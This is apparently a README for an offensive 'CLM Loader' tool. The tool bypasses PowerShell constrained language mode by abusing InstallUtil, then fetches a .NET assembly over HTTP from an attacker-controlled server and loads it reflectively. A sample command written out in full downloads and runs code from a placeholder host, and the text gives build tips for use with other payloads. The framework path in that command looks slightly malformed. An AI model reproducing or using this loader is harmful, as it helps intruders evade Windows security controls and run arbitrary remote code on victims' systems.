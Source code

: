 # CLM Loader
This was made to bypass constrained language mode using installutil.
It works by making a HTTP request to your webserver and loading whatever .NET assembly you point it at via reflective loading.

For Ex.
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30.30319\InstallUtil.exe /logfile= /LogToConsole=false /uri=http://x.x.x.x/loader.exe /U "C:\Windows\Tasks\clmloader.exe"
```

Any of the payloads using `clm-reflection` will call this. Its important to note that compiling this with Mono mcs seemed to be break things so just compile it with visual studio and drop it in `/output/`.
